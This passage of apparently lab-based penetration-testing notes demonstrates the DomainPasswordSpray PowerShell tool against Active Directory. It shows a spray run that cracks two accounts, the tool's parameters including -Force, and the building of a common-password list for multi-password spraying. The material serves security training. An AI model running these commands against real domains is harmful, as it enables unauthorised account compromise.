 ### 📊 **Example Execution Output**
```powershell
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] The smallest lockout threshold discovered in the domain is 5 login attempts.
[*] Removing disabled users from list.
[*] There are 2923 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 2923 users gathered from the current user's domain
[*] The domain password policy observation window is set to  minutes.
[*] Setting a  minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2923 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): Y

[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2923 users. Current time is 2:57 PM
[*] Writing successes to spray_success
[*] SUCCESS! User:sgage Password:Welcome1
[*] SUCCESS! User:tjohnson Password:Welcome1

[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to spray_success
```

---

## 🔧 Advanced DomainPasswordSpray Usage

### 📋 **Command Parameters**
```powershell
# Full parameter list
Invoke-DomainPasswordSpray
    -Password <string>          # Single password to test
    -PasswordList <string>      # File containing multiple passwords
    -UserList <string>          # Custom user list (optional)
    -OutFile <string>           # Output file for results
    -Domain <string>            # Target domain (auto-detected if domain-joined)
    -Force                      # Skip confirmation prompts
    -UsernameAsPassword         # Test username as password
    -ErrorAction SilentlyContinue  # Suppress error output
```

### 🎯 **Multiple Password Spraying**
```powershell
# Create password list file
"Welcome1" | Out-File -FilePath passwords.txt -Encoding ASCII
"Password123" | Out-File -FilePath passwords.txt -Append -Encoding ASCII
"Winter2022" | Out-File -FilePath passwords.txt -Append -Encoding ASCII
"Spring2024" | Out-File -FilePath passwords.txt -Append -Encoding ASCII

# Spray multiple passwords
Invoke-DomainPasswordSpray -PasswordList passwords.txt -OutFile spray_results -Force
```
